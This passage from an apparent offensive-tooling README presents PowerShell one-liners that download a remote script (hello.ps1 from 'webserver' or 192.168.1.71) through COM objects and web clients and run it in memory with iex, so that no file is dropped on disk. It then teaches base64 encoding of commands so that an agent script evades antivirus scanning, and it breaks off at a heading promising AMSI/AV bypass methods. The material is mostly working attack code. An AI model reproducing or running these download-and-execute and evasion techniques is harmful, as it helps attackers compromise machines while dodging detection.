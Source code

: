 ![powershell Additional Methods for Remote Download](http://i63.tinypic.com/2mpx7wl.jpg)

---

      [ COM-downloaders - Additional Methods for Remote Download ]
      The follow oneliner's are also downloaders using diferent COM objects like 'WinHttp' or 'Msxml2'
      HINT: The follow downloaders will not drop the agent on disk (download/exec in ram)

<br />

      $h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://webserver/hello.ps1',$false);$h.send();iex $h.responseText

      $h=new-object -com WinHttp.WinHttpRequest.5.1;$h.open('GET','http://webserver/hello.ps1',$false);$h.send();iex $h.responseText

      $r=new-object net.webclient;$r.proxy=[Net.WebRequest]::GetSystemWebProxy();$r.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $r.downloadstring('http://192.168.1.71:8080/hello.ps1');

![powershell Additional Methods for Remote Download](http://i.cubeupload.com/tMG9I8.jpg)

---

      Using base64 stings decoded at runtime are a Useful obfuscation trick, because
      the agent.ps1 dosen't contain any real malicious syscall's to be scan/flagged. 

<br />

- String command to obfuscate<br />
`Date`

- using powershell to decode base64 syscall


      1º - encode the command you want to obfuscate (linux-terminal)
      echo "Date" | base64

      2º - copy the encoded string to paste it on your script
      RGF0ZQo=

      3º - Insert the follow lines into your powershell script

        $Certificate="RGF0ZQo="
        $decoded=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($Certificate))
        powershell.exe Get-$decoded   #<-- execute/decode the base64 syscall at runtime

![powershell obfuscation](http://i64.tinypic.com/2cyfeck.jpg)

Here we can view the all process of encoding/decoding in powershell console
![powershell obfuscation](http://i65.tinypic.com/6xqett.jpg)

---

- More obscure obfuscated/bypass technics<br />

      If the proccess name is 'powershell' and the command line arguments match some specific
      patterns, AMSI/AV's will flag that input as malicious. there are 3 main ways to bypass it:
